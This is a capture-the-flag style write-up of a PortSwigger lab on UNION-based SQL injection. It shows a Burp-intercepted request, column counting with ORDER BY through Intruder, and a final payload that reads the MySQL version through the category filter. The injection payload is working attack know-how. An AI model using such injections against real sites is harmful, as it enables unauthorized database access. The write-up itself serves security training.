





<p align="center">
  
</p>

---

- 🎯 **Target:** SQL injection Lab - querying the database type and version on MySQL and Microsoft
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 19.05.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SQL injection (`UNION based`)

---


## 🔍 Request interception

> SQL injection vulnerability contains in the product category filter




> Intercepting the request to select a product category in `BurpSuite`:

```http

GET /filter?category=Gifts HTTP/2
Host: 0a1a00d1047b73138077173a00980007.web-security-academy.net
Cookie: session=SaUB5JpFe2P3T6L7xxbQtPNEiDabjuH3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a00d1047b73138077173a00980007.web-security-academy.net/filter?category=Gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab I need to output a string containing the version of the `MySQL` database. To do this I need to execute a query like `select @@version`:


> I will use the `UNION` operator in the sql query to combine two `SELECT` queries to extract data.

> To perform this attack I will first determine the number of columns. I will automate the process using brute force via `BurpSuite`.
> We will generate a text document with a sequence of numbers from 1 to 10 (for example) via the `seq` tool:

```bash

seq 1 10 | sudo tee nums.txt

```

> Results:

```bash

cat nums.txt

1
2
3
4
5
6
7
8
9
10

```

> I send a request to `Intruder` and start iterating over the numeric parameter of the `oreder by` operator:





> As a result, I get a server error in response to the value `3`:



> Ok. Accordingly, the number of columns in the table is `2`. As I mentioned above, to display information about the version of the `MySQL` database, you need to execute a query like `select @@version`.
> Using the `UNION` operator, I combine the results of two `select` queries. Also, do not forget that the number of columns is `2` and, accordingly, a stub in the form of `null` is needed, since the `UNION` operator
> requires that the number of columns in the two `select` queries match.

> **For reference**: `UNION` is an SQL operator that combines the result rows from two `SELECT` queries, provided that the number and types of columns in them match. This
> allows us to substitute our values ​​into the result set and try to display them on the page.

> The final injection will be as follows:

```bash

GET /filter?category=' UNION SELECT @@version, null FROM dual--+ HTTP/2

```

> Result:



> Getting information about the `MysQL Database version`.


